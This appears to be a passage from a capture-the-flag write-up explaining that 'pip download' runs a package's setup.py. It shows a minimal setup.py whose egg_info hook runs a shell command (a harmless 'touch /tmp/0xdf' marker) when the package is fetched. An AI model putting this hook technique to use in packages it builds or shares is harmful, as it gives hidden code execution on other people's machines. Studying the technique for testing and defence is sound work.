 While it sounds like the `download` command would do just that, it turns
out that it not only downloads the package but also runs a `setup.py`
file inside the package. This was called out as far back as a [GitHub
issue](https://github.com/pypa/pip/issues/1884) from 2014 (back when it
was `pip --download` rather than `pip download`)!

![](/img/image-20230425124432055.png)

[This blog
post](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8)
brought the malicious aspects to light (again) in August 2022.

#### Package

Embrace The Red has a [nice
post](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)
on abusing this. I'll follow that, but build a slightly more stripped
down version. A `setup.py` file is meant to generate the metadata about
the package, but it's also a Python file so it can execute code. The
`setup` function call is what is referenced by `pip`. I'll build a
minimal version of that:



    from setuptools import setup
    from setuptools.command.egg_info import egg_info
    import os


    class RunEggInfoCommand(egg_info):
        def run(self):
            os.system("touch /tmp/0xdf")
            egg_info.run(self)

    setup(
        name = "own_this_is_for_you",
        version = "0.0.1",
        license = "MIT",
        packages=[],
        cmdclass={
            'egg_info': RunEggInfoCommand
        },
    )
